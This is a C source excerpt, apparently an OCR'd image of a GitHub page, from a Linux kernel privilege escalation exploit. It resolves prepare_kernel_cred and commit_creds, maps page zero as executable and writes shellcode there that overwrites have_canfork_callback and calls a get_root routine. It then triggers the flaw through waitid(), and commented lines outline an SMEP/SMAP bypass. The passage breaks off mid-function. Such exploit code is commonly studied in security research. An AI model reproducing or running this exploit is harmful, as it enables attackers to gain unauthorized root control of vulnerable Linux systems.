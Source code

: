 ```c

  prepare_kernel_cred = (prepare_kernel_cred_t)(kernel_base + k_offset[k_ver][0]);
  commit_creds = (commit_creds_t)(kernel_base + k_offset[k_ver][1]);
  siginfo_t *have_canfork_callback = (siginfo_t *)(kernel_base + k_offset[k_ver][2]);

  printf("\e[35m[+] prepare_kernel_cred   \e[34m: %#llx\n", (unsigned long long)prepare_kernel_cred);
  printf("\e[35m[+] commit_creds          \e[34m: %#llx\n", (unsigned long long)commit_creds);
  printf("\e[35m[+] have_canfork_callback \e[34m: %#llx\n", (unsigned long long)have_canfork_callback);

  printf("\e[36m[*] Stage 1 - Try to allocate 0x0\n");
  if (mmap((void *)0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_ANON | MAP_PRIVATE | MAP_FIXED, -1, 0) == (char *)-1) {
    printf("\e[31m[-] Failed to allocate 0x0\n");
    return EXIT_FAILURE;
  }

  printf("\e[36m[*] Stage 2 - Inject shellcode\n");
  
  unsigned char shellcode[] = {
      /* insert 0 into have_canfork_callback */
      0x48, 0xB8,
      0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, // mov rax, have_canfork_callback
      0x48, 0xC7,
      0x00, 0x00, 0x00, 0x00, 0x00,                   // mov [rax], 0x0
      /* SMEP/SMAP Bypass */
      // 0x68,
      // 0xf0, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // push 0x00000000000006f0
      // 0x5f, 0xc3,                                     // pop rdi; ret;
      // 0x0f, 0x22, 0xe7, 0xc3,                         // mov cr4, rdi; ret;
      /* call get_root() */
      0x48, 0xB8,
      0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, // mov rax, &get_root()
      0xFF, 0xD0, 0x48,                               // call rax
      /* userland info */
      // 0x0f, 0x01, 0xf8, 0xc3                       // swapgs; ret;
      // 0x48, 0xcf                                   // iretq;
      // rip = get_shell
      // cs = user_cs
      // rflags = user_rflags
      // rsp = asm('rsp')
      // ss = user_ss
      /* jmp to nullptr */
      0x31, 0xC0, 0xC3,                               // xor rax, rax; ret;
  };

  void **offset = 0;
  
  offset = rawmemchr(shellcode, 0x41);
  (*offset) = have_canfork_callback;

  offset = rawmemchr(shellcode, 0x42);
  (*offset) = get_root;

  memcpy((void *)0, shellcode, sizeof(shellcode));

  pid_t pid;
  if ((pid = fork()) == -1) return EXIT_FAILURE;
  if (pid == 0) return EXIT_FAILURE;

  printf("\e[36m[*] Stage 3 - Trigger waitid()\n");
  if (waitid(P_PID, pid, have_canfork_callback, WEXITED | WSTOPPED | WCONTINUED) == -1) {
```